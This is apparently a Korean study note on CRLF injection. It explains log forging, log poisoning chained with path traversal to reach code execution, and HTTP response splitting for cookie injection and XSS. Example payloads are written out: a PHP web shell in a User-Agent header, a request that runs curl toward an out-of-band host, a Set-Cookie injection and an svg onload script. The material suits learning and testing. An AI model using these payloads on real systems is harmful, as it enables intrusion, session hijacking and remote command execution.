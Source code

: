 # CRLF Injection


## CRLF 란?
- 타자기 시절부터 줄 바꿈(New Line)을 사용하던 방식
- CR + LF가 합쳐진 용어
    - CR(Carriage Return)
        - 현재 라인에서 커서 위치를 줄 올림 없이 가장 앞으로 옮기는 동작
        - ASCII Code: `ASCII 13` 
        - URL Encode: `%0D`
        - Char: `\r`
    - LF(Line Feed)
        - 커서의 위치는 그대로 두고 종이를 한 라인 위로 올리는 동작
        - ASCII Code: `ASCII 10`
        - URL Encode: `%0A`
        - Char: `\n`


## CRLF Injection이란?
- Carrage Return Line Feed Injection의 약자
- 개행 문자를 의미하는 CR과 LF를 이용하여 공격자가 의도한 동작을 수행시키는 공격 기법


### 1) Log Injection
- 사용자 입력이 로그에 포함되는 경우 공격자가 이를 이용해 로그 항목을 위조하거나 악성 내용을 로그에 삽입할 수 있다.


#### [1] Log Forging
- 사용자 입력이 Log에 반영되는 부분이 있다면 CRLF 문자를 이용하여 새로운 Log를 작성할 수 있다.
- 이러한 Log는 침해 사고 분석을 어렵게 할 수 있고, Log의 무결성을 해쳐서 Log의 신뢰도를 떨어뜨리고, Log가 가지는 부인 방지로서의 목적을 상실하게 할 수 있다.  

정상 요청과 로그
```
GET /?query=aaaa
```
```
['A' User][error][input: aaaa] invalid data
```
공격 요청과 로그
```
GET /?query=aaaa]%20invalid%20data%0d%0a['B' User][token]%20re-generate%20token
```
```
['A' User][error][input: aaaa] invalid data
['B' User][token] re-generate token
```


#### [2] Log Poisoning
- Log 데이터를 통제할 수 있고, 서비스 내 LFI, Path Traversal 취약점이 있는 경우 Log 파일의 경로를 유추하여 RCE 등 위험도를 높일 수 있다.  

First Request (Log Poisoning)
```
GET / HTTP/1.1
User-Agent: aa<?php echo system($_GET['cmd']); ?>bb
```
Second Request (Path Traversal)
- 요청 내 `curl` 명령어가 실행
```
GET /file.php?path=/var/log/apache2/access.log?cmd=curl%20<OAST>/rce HTTP/1.1
```


### 2) HTTP 응답 분할(HTTP Response Splitting)
- *CWE-113*
- 응답(Response)에 줄 바꿈 문자(CR/LF)를 삽입(Injection)해 하나의 HTTP 응답을 분리(Splitting)하여 여러 개의 HTTP 응답을 만들어 내어 캐시 서버(Cache Server)나 프록시 서버(Proxy Server)에 변조된 컨텐츠를 전송하여 조작할 수 있는 기법


#### [1] Add Cookie
- CRLF가 삽입된 구문이 Header에 반영되는 경우 임의로 Cookie를 삽입할 수 있다.
```
GET /redirect?location=ws://%0d%0aSet-Cookie: session=attackersessions;
```
```
HTTP/1.1 200 OK
Location: ws://
Set-Cookie: session=attackersessions;
```


#### [2] XSS
- CRLF가 삽입된 구문이 Header에 반영되는 경우 `\r\n\r\n`과 같이 두 번 개행하여 Response Body 영역에 임의로 HTML 코드를 추가하여 XSS와 동일하게 사용자 브라우저에서 Script를 실행할 수 있다.
```
GET /redirect?location=ws://%0d%0a%0d%0a<svg/onload=alert(45)>
```
```
HTTP/1.1 200 OK
Location: ws://

<svg/onload=alert(45)>
```


# 참고문헌
- [Log Injection](https://www.hahwul.com/cullinan/log-injection/)
- [CRLF Injection](https://www.hahwul.com/cullinan/crlf-injection/)
- [CR-LF INJECTION](https://zzzmilky.tistory.com/entry/%EC%9B%B9%ED%95%B4%ED%82%B9-CR-LF-INJECTION)